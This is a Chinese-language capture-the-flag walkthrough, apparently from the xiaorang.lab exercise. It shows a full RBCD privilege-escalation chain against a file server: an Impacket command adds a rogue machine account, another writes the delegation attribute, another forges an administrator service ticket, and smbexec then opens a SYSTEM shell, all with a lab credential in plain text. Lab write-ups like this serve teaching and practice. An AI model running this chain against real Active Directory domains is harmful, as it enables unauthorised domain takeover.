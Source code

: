 ![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/b70ca913b565c991.png)
ACCOUNT OPERATORS 组的成员 ZHANGXING@XIAORANG.LAB 对主机 FILESERVER$ 具有完全控制权限。此时可以通过配置 RBCD 来获取主机 FILESERVER$ 的 SYSTEM 权限。

添加机器用户：

```
┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-addcomputer 'xiaorang.lab/zhangxin:admin4qwY38cc' -computer-name 'EVILCOMPUTER$' -computer-pass 'p@ssw0rd' -dc-ip 172.22.60.8
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account EVILCOMPUTER$ with password p@ssw0rd.
```

配置 RBCD：

```
┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-rbcd 'xiaorang.lab/zhangxin:admin4qwY38cc' -action write -delegate-from 'EVILCOMPUTER$' -delegate-to 'FILESERVER$' -dc-ip 172.22.60.8
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] EVILCOMPUTER$ can now impersonate users on FILESERVER$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     EVILCOMPUTER$   (S-1-5-21-3535393121-624993632-895678587-1116)
```

伪造域管权限的服务票据：

```
┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-getST xiaorang.lab/EVILCOMPUTER$:'p@ssw0rd' -spn cifs/FILESERVER.xiaorang.lab -impersonate administrator -dc-ip 172.22.60.8
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

获取主机 SYSTEM 权限 shell：

```
┌──(root㉿kali)-[~]
└─# export KRB5CCNAME=administrator.ccache

┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-smbexec 'xiaorang.lab/administrator@FILESERVER.xiaorang.lab' -target-ip 172.22.60.42 -codec gbk -shell-type powershell -no-pass -k
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
PS C:\Windows\system32> type C:\Users\Administrator\flag\flag03.txt
 ________  __
|_   __  |[  |
  | |_ \_| | |  ,--.   _ .--.  __   _   _ .--..--.
  |  _|    | | `'_\ : [ `/'`\][  | | | [ `.-. .-. |
 _| |_     | | // | |, | |     | \_/ |, | | | | | |
|_____|   [___]\'-;__/[___]    '.__.'_/[___||__||__]

flag03: flag{62e4b31e-bcea-4115-b328-e3d7cb324183}

```